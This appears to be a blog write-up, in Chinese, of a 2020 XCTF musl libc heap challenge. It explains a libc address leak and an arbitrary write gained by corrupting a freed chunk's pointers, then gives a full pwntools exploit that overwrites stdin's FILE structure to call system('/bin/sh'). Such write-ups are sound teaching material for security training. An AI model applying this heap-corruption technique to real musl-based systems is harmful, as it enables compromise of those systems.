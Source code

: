 ```yaml
---
layout: post
title: "2020 xctf musl wp"
date:   2022-4-26
tags: [ctf_wp]
comments: true
author: wsxk
---
```


- [拿到libc地址](#拿到libc地址)
- [任意地址写](#任意地址写)
- [exp](#exp)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


做的第一道musl pwn题

只能说虽然看起来很简单，其实还是挺困难的

不懂musl的可以看一看源码（

或者直接路由到我的源码分析
[musl1.1.24源码分析](https://wsxk.github.io/musl%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)

直接看题目

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-4-26-XCTF_PWN_musl/1.png)

case 1 函数里面有且只有一个溢出机会

case 4 有且只有一个打印内容的机会


## 拿到libc地址

因为musl是静态堆内存（即它的初始堆就是在libc里的，所以你拿到了chunk的地址=拿到了libc的基址）

一开始申请一个0x20大小的chunk，根据musl的规律，它会从大chunk中切掉一部分（其中会保护mal某个位置的地址

## 任意地址写

任意地址写要用case1的溢出机会拿到

可以再申请3个0x20的chunk

free掉两个（不要连在一起，连在一起会自动合并），再申请第一个chunk

然后用case 1的覆写机会写后面chunk的地址（因为musl1.1.24基本不会对prev和next的合法性做检查，而且先进先出）

这时候可以把这个chunk的prev和next都改掉，这样mal.bins[0]会永远指向这个chunk（可以有任意地址写入的权限


## exp

    from pwn import *
    context.log_level='debug'

    io=process("./carbon")
    libc = ELF('./libc.so')

    def add(size,content,hello='N'):
        print("hello:"+hello)
        io.sendlineafter("> ",str(1))
        io.sendlineafter("What is your prefer size? >",str(size))
        io.sendlineafter("Are you a believer? >",hello)
        io.sendlineafter("Say hello to your new sleeve >",content)

    def delete(idx):
        io.sendlineafter("> ",str(2))
        io.sendlineafter("What is your sleeve ID? >",str(idx))

    def edit(idx,content):
        io.sendlineafter("> ",str(3))
        io.sendlineafter("What is your sleeve ID? >",str(idx))
        io.send(content)

    def examine(idx):
        io.sendlineafter("> ",str(4))
        io.sendlineafter("What is your sleeve ID? >",str(idx))

    # get libc_address
    #gdb.attach(io)
    add(0,'a') #0
    #gdb.attach(io)
    examine(0)

    libc_base = u64(io.recv(6).ljust(8,b'\x00'))-912-0xA0A80
    print(hex(libc_base))
    print("mal address: "+hex(libc_base+0xa0a80))
    libc.address=libc_base
    #gdb.attach(io)
    stdin = libc.address+0xA01C0
    brk = libc.address+0xA2FF0
    binmap = libc.address+0xA0A80
    bin  = libc.address + 0xA0A80+0x380
    system = libc.address+0x046BDA
    #gdb.attach(io)

    # procedure 2
    add(0x10,'a'*0xf)#1
    add(0x10,'b'*0xf)#2
    add(0x10,'c'*0xf)#3
    add(0x10,'d'*0xf)#4
    #gdb.attach(io)
    add(0x10,'e'*0xf) #5
    add(0x10,'f'*0xf) #6
    add(0x10,'g'*0xf) #7
    add(0x10,'h'*0xf) #8
    delete(1)
    delete(3)
    #gdb.attach(io)

    payload = b'i'*0x10+p64(0x21)*2+b'i'*0x10+p64(0x21)+p64(0x20)+p64(stdin-0x10)*2+p8(0x20) # set same but binmap is 0
    add(0x10,payload,hello='Y') #1
    add(0x10,b'\n') #3   bins[0] always point to #3
    #gdb.attach(io)

    delete(1)
    edit(3, p64(binmap - 0x20) * 2)
    add(0x10,b'\n')             #1
    delete(5) # set as non-empty bin

    edit(3, p64(brk - 0x10) * 2)
    add(0x10,b'\n')             #5
    delete(7) # set as non-empty bin

    edit(3,p64(bin-0x10)+p64(stdin-0x10))
    add(0x10,b'\n') 
    add(0x50,b'\n')#9
    edit(3,p64(bin-0x10)+p64(brk-0x10))
    add(0x10,b'\n')#10
    add(0x50,b'\n')#11
    edit(3,p64(bin-0x10)+p64(binmap-0x20))
    add(0x10,b'\n')#12
    add(0x50,b'\n')#13

    payload  = b"/bin/sh\x00"    # stdin->flags
    payload += b'X' * 0x20
    payload += p64(0xdeadbeef)  # stdin->wpos
    payload += b'X' * 8
    payload += p64(0xbeefdead)  # stdin->wbase
    payload += b'X' * 8
    payload += p64(system)      # stdin->write
    edit(9,payload)
    edit(11,p64(0xbadbeef - 0x20)+b'\n' )
    edit(13, b'X' * 0x10 + p64(0) + b'\n') 

    io.sendlineafter(">", '1')
    io.sendlineafter("What is your prefer size? >", '0')
    #gdb.attach(io)
    io.interactive()
